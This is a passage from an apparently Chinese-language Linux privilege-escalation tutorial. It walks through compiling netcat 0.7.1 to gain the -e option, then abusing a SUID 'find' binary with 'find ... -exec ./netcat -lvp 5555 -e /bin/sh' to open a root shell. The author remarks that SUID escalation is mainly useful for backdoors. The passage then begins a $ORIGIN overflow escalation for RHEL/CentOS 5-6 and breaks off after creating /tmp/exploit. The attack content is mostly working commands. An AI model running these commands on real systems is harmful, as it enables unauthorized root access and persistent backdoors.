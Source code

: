 **2、解压文件**

```
tar zxvf netcat-0.7.1.tar.gz 

```

**3、解压完毕会生成目录**

```
cd netcat-0.7.1

```

**4、配置环境**

```
./configure

```

**5、配置完了再编译**

```
make

```

6、编译成功生成了 netcat 可执行文件，位与 src 目录，cd 进去然后运行，成功升级到一个版本有 - e 命令的情况

```
./netcat

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821113300025.png)

接着我们回到刚刚那个步骤，这回命令得加./netcat，成功反弹了一个 root 权限的用户

```
find sky -exec ./netcat -lvp 5555 -e /bin/sh \;

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821114225235.png)

其他文件的提权方法可以看看 [suid 提权](https://www.anquanke.com/post/id/86979)，我觉得 suid 提权主要是做后门吧。

$ORIGIN 溢出提权
============

利用 tmp 目录权限、suid 权限和 C 语言使普通账号提前为 ROOT 权限，适用范围 RHEL5-6，CENTOS5-6

提权方法
----

**1、进入 tmp 目录，创建一个利用目录**

```
mkdir /tmp/exploit

```

